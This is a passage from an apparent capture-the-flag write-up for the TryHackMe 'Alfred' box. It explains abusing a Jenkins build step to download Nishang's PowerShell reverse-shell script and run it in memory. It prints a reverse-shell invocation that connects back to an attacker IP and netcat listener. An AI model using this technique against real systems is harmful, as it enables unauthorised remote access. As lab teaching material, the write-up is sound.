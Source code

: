 the build is executed by cmd.exe. We should be able to take advantage of this and generate a reverse shell for ourselves as `alfred\bruce`. We'll use the download and execute in-memory method to trigger a reverse TCP Powershell script [^nishang-usage] using [Nishang's](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse TCP Powershell script. The only modification we need to make is add a line at the bottom of the script to invoke the function to connect back to our netcat listener on our attacker system.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.6.5.103 -Port 4444`

When this script is downloaded onto the target system, the reverse shell function will automatically execute. But, we need to get the file from our attacker system onto the target system.

We can invoke a Powershell expression to download the file using the "Net.WebClient" object [^nishang-usage]. Before we modify the build configuration, we need to serve the Powershell script using Python's http.server module and create a netcat listener on port 4444 to catch the reverse shell.

*It took me 8 attempts to modify the command and update the build configuration before I caught the reverse shell. After I slowed down and inspected the reference [^nishang-usage], it was easier to recognize the mistakes and get the correct command format.*

![build config](/assets/img/posts/thm-alfred/jenkins-build-config.jpg)

Once we save the build configuration and execute the build, we should see a log entry in our HTTP server and the reverse shell connection as `alfred\bruce`.

![reverse shell](/assets/img/posts/thm-alfred/jenkins-reverse-shell.jpg)


[^jenkins-enum]: <https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins>
[^nishang-usage]: <https://kalilinuxtutorials.com/nishang/>